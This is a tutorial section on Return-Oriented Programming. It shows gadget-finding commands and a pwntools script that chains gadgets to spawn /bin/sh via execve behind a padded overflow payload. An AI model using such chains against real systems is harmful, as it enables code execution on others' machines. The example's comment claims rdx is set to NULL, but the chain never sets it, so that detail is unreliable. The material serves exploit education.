 ### Return-Oriented Programming (ROP)

**ROP** chains together "gadgets" (short instruction sequences ending in `ret`) to execute code without injecting shellcode.

**Why ROP?**
- **DEP/NX:** Data Execution Prevention prevents executing code on stack/heap
- **ASLR:** Address Space Layout Randomization makes hardcoded addresses unreliable
- **ROP bypasses DEP:** Uses existing code in binary/libraries (already executable)

**Finding ROP gadgets:**

```bash
# ROPgadget (Python tool):
ROPgadget --binary vulnerable --ropchain

# Or use ropper:
ropper --file vulnerable --search "pop rdi"

# Example gadgets:
0x004005a3: pop rdi; ret
0x004005a1: pop rsi; pop r15; ret
0x00400490: pop rax; ret
0x00400610: syscall; ret
```

**ROP chain example (call execve("/bin/sh")):**

```python
from pwn import *

# Gadgets:
pop_rdi = 0x004005a3  # pop rdi; ret
pop_rsi_r15 = 0x004005a1  # pop rsi; pop r15; ret
pop_rax = 0x00400490  # pop rax; ret
syscall = 0x00400610  # syscall; ret

# Data:
bin_sh = 0x00601050  # Address of "/bin/sh" string in binary

# ROP chain to call execve("/bin/sh", NULL, NULL):
# execve(rdi="/bin/sh", rsi=NULL, rdx=NULL) -> syscall 59

rop_chain = p64(pop_rdi) + p64(bin_sh)       # rdi = "/bin/sh"
rop_chain += p64(pop_rsi_r15) + p64(0) + p64(0)  # rsi = NULL, r15 = 0
rop_chain += p64(pop_rax) + p64(59)          # rax = 59 (execve syscall)
rop_chain += p64(syscall)                    # syscall

# Full payload:
payload = b"A" * 76 + rop_chain

# Send to vulnerable program
```

